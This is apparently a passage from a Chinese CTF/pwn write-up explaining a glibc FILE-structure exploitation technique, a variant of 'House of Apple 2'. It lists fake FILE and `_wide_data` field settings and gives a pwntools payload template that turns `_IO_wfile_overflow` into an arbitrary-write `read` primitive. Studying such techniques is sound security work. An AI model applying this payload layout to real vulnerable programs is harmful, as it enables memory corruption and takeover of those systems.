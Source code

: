 注意这里 [1] 调用了 `read`，可以看到 `read` 的三个参数都是可控的，也就相当于可以构造一个任意写原语。

在构造时，[2] 的条件和和 `_IO_flush_all` 调用 `_IO_OVERFLOW` 冲突了：

```c
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)  // 因此不能走上面这个判断
	   || (_IO_vtable_offset (fp) == 0  // 得走下面这个
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
```


那么实现任意地址写的 fake file 设置如下

1. `_flags` 设置为 `~(2 | 0x8 | 0x800)`，设置为 0 即可（与 apple2 相同）
2. `vtable` 设置为 `_IO_wfile_jumps` / `_IO_wfile_jumps_mmap` 地址，使得调用 `_IO_wfile_overflow` 即可（注意此处与 apple2 同的是，此处的 vtable 不能加偏移，否则会打乱 `_IO_SYSREAD` 的调用）
3. `_wide_data->_IO_write_base` 设置为 0，即满足 `*(_wide_data + 0x18) = 0`（与 apple2 相同）
4. `_wide_data->_IO_write_ptr` 设置为大于 `_wide_data->_IO_write_base`，即满足 `*(_wide_data + 0x20) > *(_wide_data + 0x18)`（注意此处不同）
5. `_wide_data->_IO_buf_base` 设置为 0，即满足 `*(_wide_data + 0x30) = 0`（与apple2相同）
6. `_wide_data->_wide_vtable` 设置为任意一个包含 `_IO_new_file_underflow`，其中原生的 vtable 就有，设置成 `_IO_file_jumps-0x48` 即可
7. `_vtable_offset` 设置为 `0`
8. `_IO_buf_base` 与 `_IO_buf_end` 设置为你需要写入的地址范围
9. `_chain` 设置为你下一个触发的 `fake file` 地址
10. `_IO_write_ptr <= _IO_write_base` 即可
11. `_fileno` 设置为 0，表示 `read(0, buf, size)`
12. `_mode` 设置为 2，满足 `fp->_mode > 0` 即可


```python
fake_file_read = flat({
    0x00: 0, # _flags
    0x20: 0, # _IO_write_base
    0x28: 0, # _IO_write_ptr
    
    0x38: 任意地址写的起始地址, # _IO_buf_base
    0x40: 任意地址写的终止地址, # _IO_buf_end
	
    0x70: 0, # _fileno
    0x82: b"\x00", # _vtable_offset
    0xc0: 2, # _mode
    0xa0: wide_data的地址, # _wide_data
    0x68: 下一个调用的fake file地址, # _chain
    0xd8: _IO_wfile_jumps, # vtable
}, filler=b"\x00")

fake_wide_data = flat({
    0xe0: _IO_file_jumps - 0x48,
    0x18: 0,
    0x20: 1,
    0x30: 0,
}, filler=b"\x00")
```
